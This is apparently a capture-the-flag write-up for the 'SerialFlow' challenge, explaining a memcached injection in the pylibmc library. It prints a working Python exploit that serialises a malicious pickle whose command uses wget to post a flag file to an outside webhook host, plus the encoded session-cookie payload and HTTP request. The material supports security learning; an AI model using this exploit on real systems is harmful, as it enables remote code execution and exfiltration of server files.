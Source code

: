 # SerialFlow - Medium

In this challenge, participants are provided with a website and the Python source code. 
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/6e3ad55c-fcbb-45d8-a0c1-bd9f0d81fa3c)



## Solution

This challenge use memcached as a session storage and utilize `pylibmc` as a python library
> /challenge/requirements.txt
> ```
> pylibmc==1.6.3
> ```

Unfortunately `pylibmc` is vulnerable to Memcached Injection even this is the latest version. We can read this research https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/ to exploit Memcached Injection in `pylibmc`.

> exploit.py
> ```py
> import pickle
> import os
> 
> class RCE:
>     def __reduce__(self):
>         cmd = ('wget https://h3h3h3.free.beeceptor.com --post-file=/flag0f5895db0a.txt')
>         return os.system, (cmd,)
> 
> def generate_exploit():
>     payload = pickle.dumps(RCE(), 0)
>     payload_size = len(payload)
>     cookie = b'137\r\nset BT_:1337 0 2592000 '
>     cookie += str.encode(str(payload_size))
>     cookie += str.encode('\r\n')
>     cookie += payload
>     cookie += str.encode('\r\n')
>     cookie += str.encode('get BT_:1337')
> 
>     pack = ''
>     for x in list(cookie):
>         if x > 64:
>             pack += oct(x).replace("0o","\\")
>         elif x < 8:
>             pack += oct(x).replace("0o","\\00")
>         else:
>             pack += oct(x).replace("0o","\\0")
> 
>     return f"\"{pack}\""
> 
> print(generate_exploit())
> ```

Run the exploit and send the generated payload in `session` cookie 
```
➜ python3 exploit.py 
"\061\063\067\015\012\163\145\164\040\102\124\137\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\060\062\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\150\063\150\063\150\063\056\146\162\145\145\056\142\145\145\143\145\160\164\157\162\056\143\157\155\040\055\055\160\157\163\164\055\146\151\154\145\075\057\146\154\141\147\071\145\146\062\143\143\071\070\067\070\056\164\170\164\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\061\063\063\067"
```

HTTP Request:
```
GET / HTTP/1.1
Cookie: session="\061\063\067\015\012\163\145\164\040\102\124\137\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\060\062\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\150\063\150\063\150\063\056\146\162\145\145\056\142\145\145\143\145\160\164\157\162\056\143\157\155\040\055\055\160\157\163\164\055\146\151\154\145\075\057\146\154\141\147\071\145\146\062\143\143\071\070\067\070\056\164\170\164\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\061\063\063\067"
[..snip..]

```
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/81df8b40-086d-4d41-8d83-03b6254cedb2)

Check the webhook to retrieve the flag.
![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/e487a869-aa31-4871-8e02-54925c7c1d98)


## Flag
HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}
